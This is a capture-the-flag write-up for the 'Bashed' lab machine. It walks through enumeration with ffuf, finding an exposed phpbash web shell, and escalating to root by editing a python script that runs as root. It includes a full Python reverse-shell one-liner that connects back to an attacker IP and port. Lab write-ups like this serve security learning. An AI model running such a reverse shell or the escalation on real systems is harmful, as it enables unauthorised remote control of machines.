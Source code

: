 # Bashed

# Nmap scan

<figure><img src="../.gitbook/assets/image (49).png" alt=""><figcaption></figcaption></figure>

# Site enumeration

We can find a site that links to this [github ](https://github.com/Arrexel/phpbash)there is supposed to be a phpbash.php file but we cant find it lets run ffuf to find hidden directories.

&#x20;And ffuf finds the dev directory and phpbash does exist here!!

<figure><img src="../.gitbook/assets/image (50).png" alt=""><figcaption></figcaption></figure>

We can now get the user flag!!

# Priv esc

To get a more stable shell we use this reverse shell

```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.16.5",9000));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);' 
```

Now we have a stable shell lets tru sudo -l and linpeas... Nothing immediate pops up.

If we look around though we can find an interesting direction called scripts. Inside we find a python file that we own and a test.txt file that's written by root. We can assume based off this that this python is run as root.

<figure><img src="../.gitbook/assets/image (18).png" alt=""><figcaption></figcaption></figure>

Let's test our hypothesis by changing the python file to test if the test.txt file changes

<figure><img src="../.gitbook/assets/image (17).png" alt=""><figcaption></figcaption></figure>

After a few seconds we can see the test file reflects our changes. We can now change the test.py file to contain a reverse shell and we get root!!

PWNDDD
